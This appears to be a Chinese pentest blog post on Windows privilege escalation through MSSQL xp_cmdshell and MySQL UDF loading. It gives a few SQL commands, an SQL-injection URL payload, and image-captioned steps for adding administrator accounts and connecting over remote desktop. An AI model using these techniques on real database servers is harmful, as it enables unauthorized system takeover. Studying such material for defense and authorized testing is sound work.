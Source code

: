 +++
date = "2016-08-07T23:38:58+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "Windows下第三方服务提权"
topics = ["Pentest"]

+++

### 0x00  MSSQL提权
MSSQL运行在system权限时才可以通过xp_cmdshell组件执行系统命令提权  
提权条件：数据库账号是DBA权限

*  关于xp_cmdshell
    * 得到数据库连接信息，连接数据库后执行```EXEC xp_cmdshell 'net user';```
    * 有sql注入时也可以直接在url上使用xp_cmdshell，因为mssql可以多语句执行，例如```?id=1;EXEC xp_cmdshell 'net user';--```

* 连接数据库
![Windows下第三方服务提权-找数据库连接信息](/img/post/privilge_escalation_win_find_sql_conn_msg.png)
![Windows下第三方服务提权-连接mssql数据库](/img/post/privilge_escalation_win_conn_mssql.png)

* 执行系统命令
![Windows下第三方服务提权-尝试用xp_cmdshell执行命令](/img/post/privilge_escalation_win_try_exec_sys_command.png)
![Windows下第三方服务提权-开启xp_cmdshell组件](/img/post/privilge_escalation_win_open_cmd_shell.png)
![Windows下第三方服务提权-使用xp_cmdshell成功执行命令](/img/post/privilge_escalation_win_exec_sys_command_success.png)

* 添加用户
![Windows下第三方服务提权-添加用户](/img/post/privilge_escalation_win_add_user.png)
![Windows下第三方服务提权-查看添加的用户](/img/post/privilge_escalation_win_view_user.png)

* 远程连接
![Windows下第三方服务提权-远程连接](/img/post/privilge_escalation_win_remote_conn.png)
![Windows下第三方服务提权-输入用户名和密码](/img/post/privilge_escalation_win_input_u_p.png)
![Windows下第三方服务提权-输入用户名和密码](/img/post/privilge_escalation_win_remote_connection_view_ip.png)

### 0x01 MySQL提权
环境：web应用服务器权限较低  
提权条件：MySQL是system权限

* 关于UDF

MySQL提权可以用UDF和Mof。UDF就是User defined Function，即用户定义函数，可以通过创建存储方法来定义函数，从而调用系统命令。

* UDF提权过程
    * 导入udf.dll到服务器指定目录  
        * MySQL版本小于5.1的udf.dll要导入到c:\windows\目录下  
        * MySQL版本大于等于5.1的udf.dll要导入到plugin_dir目录，plugin_dir在MySQL安装目录下的lib/plugin目录下(MySQL安装目录可以用select @@basedir得到)，默认不存在这个目录，我们要自己创建
    * 使用SQL语句创建功能函数  
        CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll';
    * 执行MySQL语句调用新创建的函数  
        select shell('cmd','whoami');
    * 删除创建的函数  
        drop function shell;

* 查看基本信息
![Windows下第三方服务提权-查看基本信息](/img/post/privilge_escalation_win_view_base_msg.png)
![Windows下第三方服务提权-查看当前用户](/img/post/privilge_escalation_win_view_current_user.png)
![Windows下第三方服务提权-查看当前用户权限](/img/post/privilge_escalation_win_view_current_user_permissions.png)

* 上传udf提权
![Windows下第三方服务提权-上传udf](/img/post/privilge_escalation_win_upload_udf.png)
![Windows下第三方服务提权-连接数据库](/img/post/privilge_escalation_win_conn_mysql.png)
![Windows下第三方服务提权-导出udf.dll并生成函数](/img/post/privilge_escalation_win_export_udf.png)
![Windows下第三方服务提权-提权成功执行whoami](/img/post/privilge_escalation_win_exec_whoami.png)

* 添加用户
![Windows下第三方服务提权-通过shell函数添加用户](/img/post/privilge_escalation_win_shell_add_user.png)
![Windows下第三方服务提权-通过shell函数添加用户到管理员组](/img/post/privilge_escalation_win_shell_add_user_to_administrators.png)
![Windows下第三方服务提权-通过shell函数激活用户](/img/post/privilge_escalation_win_shell_active_user.png)
![Windows下第三方服务提权-通过shell函数查看用户](/img/post/privilge_escalation_win_shell_view_user.png)

* 远程连接
![Windows下第三方服务提权-远程3389连接](/img/post/privilge_escalation_win_shell_remote_connection.png)
